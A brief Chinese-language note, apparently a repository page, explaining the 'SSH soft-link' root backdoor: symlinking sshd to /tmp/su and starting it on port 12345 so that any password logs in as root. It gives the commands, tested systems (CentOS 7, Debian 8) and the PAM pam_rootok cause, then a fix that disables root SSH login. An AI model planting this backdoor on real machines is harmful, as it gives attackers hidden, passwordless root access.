 # ssh软连接漏洞
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=12345;
- 在另一台机器上执行：
root@192.168.1.30 -p 12345
随意输入密码即可登陆
当前测试的系统(centos7 ,debian8, 只要允许root 远程登陆，基本上都可以适用)，端口也可以换成别的
当前解决办法，禁止root 远程登陆
原因是:基于pam认证的，使用了pam中的su，su的认证使用了pam_rootok.so认证模块是认证你的UID是否为0，他会return pam的结果
```
sed -i 's/^PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config || sed -i 's/^#PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config
sudo /etc/init.d/sshd restart || sudo systemctl restart sshd
```
